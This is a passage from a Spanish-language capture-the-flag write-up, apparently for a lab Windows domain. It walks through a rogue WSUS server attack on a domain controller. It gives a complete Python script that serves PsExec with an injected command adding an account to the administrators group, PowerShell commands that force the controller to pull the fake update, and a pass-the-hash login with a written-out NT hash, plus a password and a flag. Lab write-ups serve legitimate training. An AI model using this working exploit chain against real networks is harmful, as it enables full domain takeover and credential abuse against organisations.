openssl pkcs12 -in administrator.pfx -nocerts -nodes -out wsus_srv_key.pem -password pass:Passw0rd!
```

### Instalación y ajuste de `wsuks`

Por defecto, `wsuks` incluye funcionalidades de red (como ARP spoofing) que no necesitamos en este escenario, ya que ya controlamos la resolución DNS. Por ello, lo utilizamos únicamente como servidor de contenido WSUS.

Creamos un entorno virtual e instalamos la herramienta:

```shell
python3 -m venv .venv; source .venv/bin/activate
pip install wsuks
```

### Script del servidor WSUS falso (`run_wsuks.py`)

El siguiente script implementa un servidor WSUS dual (HTTP/HTTPS), sirviendo una actualización maliciosa basada en `PsExec64.exe`, un binario legítimo firmado por Microsoft.

La idea es que, cuando el cliente WSUS lo descargue y ejecute, se ejecute un comando que añade `msa_health$` al grupo de administradores locales del sistema.

URL = [Download PsExec64.exe GitHub](https://github.com/interference-security/kali-windows-binaries/blob/master/PsExec64.exe)

> run_wsuks.py

```python
#!/usr/bin/env python3
# run_wsuks.py — serve-only mode on both 8530 (HTTP content) and 8531 (HTTPS WSUS)
import ssl, sys, os, logging, threading
from functools import partial
from http.server import HTTPServer

# Stub the ARP / nftables module before wsuks' server imports it
sys.modules['wsuks.lib.router'] = type(sys)('stub')
sys.modules['wsuks.lib.router'].Router = object

from wsuks.lib.logger import initLogger
initLogger(debug=False)
from wsuks.lib.wsusserver import WSUSUpdateHandler, WSUSBaseServer

# CAMBIA ESTO POR TU IP DE VPN
HOST = '<IP_ATTACKER_VPN>'  # <--- ¡TU IP DE VPN!
EXE  = 'PsExec64.exe'

COMMAND = ('/accepteula /s cmd.exe /c "'
           'net localgroup administrators msa_health$ /add 2>&1 > C:\\Share\\Logs\\exploit.txt & '
           'net localgroup administrators >> C:\\Share\\Logs\\exploit.txt 2>&1 & '
           'icacls C:\\Share\\Logs\\exploit.txt /grant Everyone:F"')

exe_bytes = open(EXE, 'rb').read()
h = WSUSUpdateHandler(exe_bytes, os.path.basename(EXE), f'http://{HOST}:8530')
h.set_resources_xml(COMMAND)
log = logging.getLogger('wsuks')

def serve(port, use_tls):
    httpd = HTTPServer((HOST, port), partial(WSUSBaseServer, h))
    if use_tls:
        ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
        ctx.load_cert_chain('wsus_srv_cert.pem', 'wsus_srv_key.pem')
        httpd.socket = ctx.wrap_socket(httpd.socket, server_side=True)
        log.info(f'HTTPS WSUS on {HOST}:{port}')
    else:
        log.info(f'HTTP content on {HOST}:{port}')
    httpd.serve_forever()

threading.Thread(target=serve, args=(8530, False), daemon=True).start()
serve(8531, True)
```

Ejecuccion del exploit:

```shell
python3 run_wsuks.py
```

Respuesta:

```
[*] HTTP content on 10.10.15.35:8530
[*] HTTPS WSUS on 10.10.15.35:8531
```

## Forzar la actualización en el DC

Desde la sesión de WinRM como `msa_health$`, forzamos a Windows Update a reinicializar su estado y contactar inmediatamente con el servidor WSUS configurado.

```powershell
# 1. Detenemos el servicio de Windows Update para poder modificar sus archivos
Stop-Service wuauserv -Force

# 2. Borramos la caché y el historial de actualizaciones (resetea el estado de Windows Update)
Remove-Item 'C:\Windows\SoftwareDistribution' -Recurse -Force -ErrorAction SilentlyContinue

# 3. Reiniciamos el servicio de Windows Update (recrea la carpeta borrada con valores limpios)
Start-Service wuauserv

# 4. Reiniciamos la autorización con WSUS y fuerza la detección inmediata de actualizaciones
wuauclt /resetauthorization /detectnow

# 5. Iniciamos un escaneo de actualizaciones usando el cliente moderno de Windows Update
usoclient StartScan
```

### Evidencia en el servidor WSUS

En el servidor `wsuks` observamos el flujo completo de comunicación del cliente Windows Update:

```
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetConfig"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/SyncUpdates"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetCookie"
[+] Received POST request: /ClientWebService/client.asmx, SOAP Action: "http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService/GetExtendedUpdateInfo"
[+] Received GET request: /ac2acca7-6f66-483a-97c5-301e6a39869c/PsExec64.exe
[+] GET request for exe: /ac2acca7-6f66-483a-97c5-301e6a39869c/PsExec64.exe
[+] Received GET request: /ac2acca7-6f66-483a-97c5-301e6a39869c/PsExec64.exe
[+] GET request for exe: /ac2acca7-6f66-483a-97c5-301e6a39869c/PsExec64.exe
```

Esto confirma que el DC está consultando y descargando el payload desde nuestro servidor WSUS malicioso.

## Verificación y escalada final

Tras unos instantes, el payload es ejecutado en el DC con privilegios de **SYSTEM**. Validamos el resultado revisando el archivo generado por el comando inyectado:

```powershell
type C:\Share\Logs\exploit.txt
```

Respuesta:

```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
msa_health$
toby.brynleigh
The command completed successfully.
```

Se confirma que el usuario `msa_health$` ha sido añadido al grupo de **Administradores locales del dominio**.

Para aplicar los nuevos privilegios, reiniciamos la sesión de autenticación:

```shell
evil-winrm -i <IP> -u 'msa_health$' -H '603fc24ee01a9409f83c9d1d701485c5'
```

Respuesta:

```
Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\msa_health$\Documents> whoami /groups | findstr /i admin
BUILTIN\Administrators                     Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
```

Con esto se confirma la escalada a **Domain Admin**, completando la máquina.

Finalmente, leemos la flag del usuario administrador:

```powershell
type C:\Users\toby.brynleigh\Desktop\root.txt
```

> root.txt

```
5f024158208d9c290f5673fcf877b5fc
```
